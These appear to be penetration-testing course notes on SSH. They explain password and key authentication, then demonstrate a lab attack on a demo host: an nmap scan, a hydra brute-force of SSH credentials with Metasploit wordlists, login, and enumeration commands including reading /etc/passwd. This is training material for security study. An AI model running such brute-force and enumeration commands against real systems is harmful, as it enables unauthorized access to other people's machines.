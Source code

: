 - SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
- It is typically used for remote access to servers and systems.
- SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
- SSH authentication can be configured in two ways:
	- Username & password authentication
	- Key based authentication
- In the case of username and password authentication, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.

Practical Demonstration
- `nmap -sV demo.ine.local`
- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local -t 4 ssh`
- `ssh sysadmin@demo.ine.local`
	- `whoami`
	- `groups sysadmin`
	- `cat /etc/*issue`
	- `uname -r`
	- `cat /etc/passwd`
	- `ls`